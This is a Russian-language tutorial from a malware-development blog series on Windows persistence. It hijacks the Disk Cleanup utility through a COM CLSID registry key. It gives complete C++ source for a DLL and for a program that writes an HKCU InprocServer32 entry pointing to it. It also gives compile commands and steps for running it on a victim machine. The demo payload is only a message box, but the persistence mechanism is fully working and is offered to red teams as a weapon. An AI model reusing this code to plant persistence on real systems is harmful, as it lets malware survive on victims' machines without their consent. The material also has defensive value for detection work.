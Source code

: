 \newpage
\subsection{85. разработка вредоносного ПО: закрепление (persistence) - часть 19. Утилита очистки диска. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/80/2022-11-18_07-59.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через утилиту очистки диска.     

### утилита очистки диска

Если у вас когда-либо возникали проблемы с нехваткой места на жестком диске, вы наверняка знакомы с утилитой очистки диска:    

![pers](./images/80/2022-11-18_08-06.png){width="80%"}    

Хорошие новости для red team: список *"Файлы для удаления"*, отображаемый в пользовательском интерфейсе, не является случайным. Просто выполните команду:    

```powershell
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches" /s
```

![pers](./images/80/2022-11-18_04-42.png){width="80%"}    

![pers](./images/80/2022-11-18_04-44.png){width="80%"}    

Как видно, здесь даже есть значения ключей реестра по умолчанию.    

Кроме того, если у нас есть `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches\default=<CLSID>`, можно найти еще одно значение ключа реестра: `HKCR\CLSID\<CLSID>\InProcServer32 = <DLLPATH>`:       

![pers](./images/80/2022-11-18_04-51.png){width="80%"}    

![pers](./images/80/2022-11-18_04-54.png){width="80%"}    

> В демонстрационных целях здесь я показываю пример реестра из HKEY_CLASSES_ROOT, так как HKEY_CURRENT_USER пуст

Это наводит на мысль, что мы можем использовать [COM DLL hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html) для закрепления. Давайте попробуем.    

### практический пример

Прежде всего, как обычно, создаем "вредоносную" DLL (`hack.cpp`):      

```cpp
/*
hack.cpp
simple DLL
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD nReason, 
LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Как обычно, для простоты, это просто `meow-meow` messagebox.

И затем создаем скрипт для закрепления (`pers.cpp`):

```cpp
/*
pers.cpp
windows persistence via Disk Cleaner
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "Software\\Classes\\CLSID\\{8369AB20-56C9-11D0-94E8-00AA0059CE02}
  \\InprocServer32";

  // malicious DLL
  const char* dll = "Z:\\2022-11-16-malware-pers-19\\hack.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)sk, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey value :(\n");
    return -1;
  }
  return 0;
}
```

В качестве CLSID я выбрал `8369AB20-56C9-11D0-94E8-00AA0059CE02`. Как можно видеть, код похож на [COM hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html). Различие только в значениях переменных.   

### демонстрация

Давайте скомпилируем нашу "вредоносную" DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.cpp
```

![pers](./images/80/2022-11-18_05-14.png){width="80%"}    

И скрипт закрепления:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/80/2022-11-18_05-17.png){width="80%"}    

Копируем на машину жертвы. В моем случае `Windows 10 x64`. Запускаем:     

```powershell
reg query "HKCU\Software\Classes\CLSID\{8369AB20-56C9-11D0-94E8-00AA0059CE02}" /s
.\pers.exe
```

![pers](./images/80/2022-11-18_07-56.png){width="80%"}    

![pers](./images/80/2022-11-18_07-57.png){width="80%"}    

Как можно видеть, все сработало идеально! =^..^=     

Но для закрепления требуется, чтобы пользователь запустил утилиту очистки диска. Здесь можно использовать [один из классических трюков](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) для закрепления. Добавление утилиты очистки диска в автозапуск может быть не лучшей идеей, так как у нее есть GUI. Я попробовал использовать аргументы командной строки этой программы:     

```powershell
cleanmgr.exe
cleanmgr.exe /cleanup
cleanmgr.exe /autoclean
cleanmgr.exe /setup
```

Но неудачно :(. Однако сама утилита работала корректно:       

![pers](./images/80/2022-11-18_08-45.png){width="80%"}    

Думаю, я вернусь к этому вопросу в одном из будущих постов.       

Кроме того, согласно документации Microsoft, можно добавлять новые записи в `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches`.      

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[MSDN Registering Disk Cleanup Handler](https://learn.microsoft.com/en-us/windows/win32/lwef/disk-cleanup?redirectedfrom=MSDN#registration)        
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[Malware persistence: part 3](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-11-16-malware-pers-19)     
